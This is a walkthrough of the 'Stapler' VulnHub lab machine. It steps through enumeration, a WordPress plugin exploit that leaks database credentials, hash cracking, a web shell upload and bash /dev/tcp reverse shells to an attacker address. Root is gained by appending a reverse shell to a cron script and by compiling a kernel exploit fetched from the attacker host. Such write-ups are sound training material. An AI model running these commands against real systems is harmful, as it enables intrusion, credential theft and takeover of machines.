

# Stapler

| Name        | Stapler                       |
| ----------- | ----------------------------- |
| Dificultad: | Intermediate                  |
| SO:         | Linux                         |
| Tipo:       | VulnHub - OffSec Play Grounds |

```shell
192.168.171.148
```
## Enumeration
### Nmap
```shell
nmap 192.168.171.148 -sV -sC -p- --min-rate=1000

PORT      STATE  SERVICE     VERSION
20/tcp    closed ftp-data
21/tcp    open   ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)

22/tcp    open   ssh         OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
53/tcp    open   tcpwrapped
80/tcp    open   http        PHP cli server 5.5 or later

123/tcp   closed ntp
137/tcp   closed netbios-ns
138/tcp   closed netbios-dgm

139/tcp   open   netbios-ssn Samba smbd 4.3.9-Ubuntu (workgroup: WORKGROUP)
666/tcp   open   doom?
3306/tcp  open   mysql       MySQL 5.7.12-0ubuntu1
12380/tcp open   http        Apache httpd 2.4.18 ((Ubuntu))


sudo nmap 192.168.171.148 -p- --min-rate=1000 -sU
```
### Ffuf
```shell
ffuf -w /home/kali/Documents/SecLists/Discovery/Web-Content/common.txt -u http://192.168.171.148/FUZZ

.bashrc
.profile

ffuf -w /home/kali/Documents/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://192.168.171.148/FUZZ
```
### FTP
```shell
ftp 192.168.171.148
anonymous
```
#### Header
```shell
220-|-----------------------------------------------------------------------------------------|
220-| Harry, make sure to update the banner when you get a chance to show who has access here |
220-|-----------------------------------------------------------------------------------------|
```
- One username was found
#### Contents
```shell
ls
get note
```


```shell
cat note
```

```shell
Elly, make sure you update the payload information. Leave it in your FTP account once your are done, John.
```
- Two new usernames

### Rpcclient
```shell
rpcclient -U "" 192.168.171.148 -N
```
- An anonymous connections was stablished. Generally if a `rpcclient` is running then SMB also is running
### SMB
```shell
smbclient -N -L //192.168.171.148
```


```shell
smbclient \\\\192.168.171.148\\kathy -N
```


```shell
cd kathy_stuff\
get todo-list.txt

cd backup\
get vsftpd.conf
get wordpress-4.tar.gz
```
- In the `todo-list.txt` file we found a new username but in general not much information was found

### Port 12380
#### Ffuf
Exploring the source page of the landing we found what looks like two new usernames.
```shell
ffuf -w /home/kali/Documents/SecLists/Discovery/Web-Content/common.txt -u http://192.168.171.148:12380/FUZZ


ffuf -w /home/kali/Documents/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://192.168.171.148:12380/FUZZ
```
- When we ran this tool in the web server we did not get response, this is weird, let's try with https

```shell
ffuf -w /home/kali/Documents/SecLists/Discovery/Web-Content/common.txt -u https://192.168.171.148:12380/FUZZ


ffuf -w /home/kali/Documents/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -u https://192.168.171.148:12380/FUZZ
```

#### robots.txt
```shell
https://192.168.171.148:12380/robots.txt
```

```shell
User-agent: *
Disallow: /admin112233/
Disallow: /blogblog/
```
- `/admin112233/` show us a XSS pop up
- `/blogblog/` lead us to a wordpress website

### WordPress
```shell
https://192.168.171.148:12380/blogblog/
```

#### wpscan
```shell
sudo wpscan -e -t 500 --url https://192.168.171.148:12380/blogblog/ --disable-tls-checks
```
- After running this tool we fond a list of usernames but did not found installed plugins. Let's try a manual approach
#### Plugins Manual Enumeration
From [#wpscan](#wpscan) we know we have access to the following URL
```shell
https://192.168.171.148:12380/blogblog/wp-content/uploads/
```
Then we could try something like:
```shell
https://192.168.171.148:12380/blogblog/wp-content/
```

- Here we have a `plugins` folder
```shell
https://192.168.171.148:12380/blogblog/wp-content/plugins/
```

- For this plugin we identified the following exploit:
- https://www.exploit-db.com/exploits/39646

#### WordPress Plugin Advanced Video - EDB-ID-39646
We need to edit the line 37 for our WordPress URL
```python
url = "https://192.168.171.148:12380/blogblog/"
```

And we need to add the following two lines because we are ignoring SSL certificates:
```python
import ssl
ssl._create_default_https_context = ssl._create_unverified_context
```


```shell
python2 exploit.py
```

- When the code is executed looks like nothing happens but if we check the WordPress landing page a new post has been created with an image that is not displayed:


Now we can take a look at the uploads directory and this image has been uploaded.
```shell
https://192.168.171.148:12380/blogblog/wp-content/uploads/
```

We can download it again ignoring SSL certificates:
```shell
wget https://192.168.171.148:12380/blogblog/wp-content/uploads/1765862718.jpeg --no-check-certificate
```
And finally read its contents:
```shell
strings 1765862718.jpeg
cat 1765862718.jpeg
```

- And now we have the `wp-config.php` file with a credentials for MySQL database. This file was the one downloaded because is the file the exploit request by default.


### MySQL
```shell
mysql -u root -pplbkac -h 192.168.171.148
root:plbkac
```

```mysql
SHOW DATABASES;
```


```mysql
USE wordpress;
SHOW TABLES;
SELECT * FROM wp_users;
```


```shell
John:$P$B7889EMq/erHIuZapMB8GEizebcIy9.
```
#### Haschcat
```shell
hashcat -m 400 john_hash /usr/share/wordlists/rockyou.txt --force

incorrect
```
- Now we have a username and its password

## Foothold
### WordPress Login
```shell
https://192.168.186.148:12380/blogblog/wp-admin/

john:incorrect
```


### Web Shell
- https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php
Having access to the WordPress admin console we can upload a PHP web shell and then execute a reverse shell:


- Now we have to upload our PHP web shell

- And finally visit the uploads directory to execute the shell:
```shell
https://192.168.186.148:12380/blogblog/wp-content/uploads/
```


### Reverse Shell
```shell
bash -c 'bash -i >& /dev/tcp/192.168.45.184/4444 0>&1'
```
#### Listener
```shell
nc -lnvp 4444
```


## Privilege Escalation - 1
### Basic Enumeration
```shell
sudo -l
sudo -V
```

```shell
find / -perm -u=s -type f 2>/dev/null

find / -writable -type d 2>/dev/null
find / -writable -type f 2>/dev/null | grep -v "/proc/" | grep -v "/sys/"


/usr/local/sbin/cron-logrotate.sh
```
### CronJobs
```shell
ls -lah /etc/cron*

-rw-r--r--   1 root root   56 Jun  3  2016 logrotate
```

```shell
cat /etc/cron.d/logrotate

*/5 *   * * *   root  /usr/local/sbin/cron-logrotate.sh
```

```shell
cat /usr/local/sbin/cron-logrotate.sh

#Simon, you really need to-do something about this
```
- Looks like a cronjob is running a script over which we have write permission. The we could try to adding to this script a command to execute a reverse shell to our listener
#### Append Reverse Shell
```shell
echo "bash -c 'bash -i >& /dev/tcp/192.168.45.184/4444 0>&1'" | tee -a /usr/local/sbin/cron-logrotate.sh
```
#### Listener
```shell
nc -lnvp 4444
```


## Privilege Escalation - 2
Another method to elevate privileges in this machine is with a Kernel exploit.
### OS Version
```shell
cat /etc/os-release

VERSION="16.04 LTS (Xenial Xerus)"
```
### Kernel version
```shell
uname -a

Linux red.initech 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 athlon i686 GNU/Linux
```

### Searchsploit
```shell
searchsploit "ubuntu 16.04"
```

- We tried different exploits but the one that worked was `39772.txt
### CVE-2016-4557 - EDB-ID-39772
- https://www.exploit-db.com/exploits/39772
This page lead us to the following repository where the exploit was shared divided in three `.c` files

- https://github.com/kkamagui/linux-kernel-exploits/tree/master/kernel-4.4.0-21-generic/CVE-2016-4557

In this repository we found the following three files that must to be transferred and compiled in our victim host.
```shell
hello.c
suidhelper.c
doubleput.c
```
#### Python3 Web Server
```shell
python3 -m http.server
```
#### Transferring Files
```shell
wget http://192.168.45.184:8000/hello.c
wget http://192.168.45.184:8000/suidhelper.c
wget http://192.168.45.184:8000/doubleput.c
```
#### Compiling
```shell
gcc -o hello hello.c -Wall -std=gnu99 `pkg-config fuse --cflags --libs`
gcc -o suidhelper suidhelper.c -Wall
gcc -o CVE-2016-4557 doubleput.c -Wall
```
#### Executing Exploit
```shell
./CVE-2016-4557
```


# Flags
```shell
/home/local.txt
/root/proof.txt
```


